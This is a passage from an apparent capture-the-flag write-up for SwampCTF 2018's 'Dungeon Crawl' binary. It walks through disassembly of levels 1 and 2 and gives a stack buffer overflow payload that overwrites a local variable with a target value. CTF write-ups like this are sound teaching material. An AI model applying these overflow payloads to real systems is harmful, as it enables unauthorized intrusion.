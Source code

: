 # For Dungeon Crawl in swampctf 2018

> The nearby dungeon is full of riches, but with each level you descend, the peril increases. Will you make it to the end?
>  
> Connect
> nc chal1.swampctf.com 1337

This challenge consists of 5 different levels. All must be pwned before the flag is awarded. We start at level1 and end at level5.
We will first explore how to exploit the levels individually. After that, we will write a Python exploit script that will exploit all of them in the server given to obtain a shell.


### Level 1

Level1 is really simple.
```
0x080485e2 <+39>:	lea    eax,[ebp-0xc]
0x080485e5 <+42>:	push   eax
0x080485e6 <+43>:	push   0x8048726
0x080485eb <+48>:	call   0x80484a0 <__isoc99_scanf@plt>	; scanf("%d", store in addr [ebp-0xc])
0x080485f0 <+53>:	add    esp,0x10
0x080485f3 <+56>:	cmp    DWORD PTR [ebp-0xc],0x3da76
0x080485fa <+63>:	jne    0x8048629 <main+110>		; jump to level2 if input == 0x3da76
```

Just convert `0x3da76` to decimal (ie 252534) and we pass Level 1. On to level2.

### Level 2

```
0x080485f3 <+56>:	sub    esp,0x8
0x080485f6 <+59>:	lea    eax,[ebp-0x88]
0x080485fc <+65>:	push   eax
0x080485fd <+66>:	push   0x804874a
0x08048602 <+71>:	call   0x80484a0 <__isoc99_scanf@plt>	; scanf("%128s", store in addr [ebp-0x88])
0x08048607 <+76>:	add    esp,0x10
0x0804860a <+79>:	cmp    DWORD PTR [ebp-0xc],0xcc07c9
0x08048611 <+86>:	jne    0x8048644 <main+137>		;jump to level3 if value at addr [ebp-0xc] == 0xcc07c9
```

We want to overwrite the memory address `[ebp-0xc]` with value `0xcc07c9`. From address `[ebp-0xc]` to address `[ebp-0x88]`, there are 0x7c characters to fill.

Therefore, our input to win level2 is:
```
\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\x61\xc9\x07\xcc\x00
```
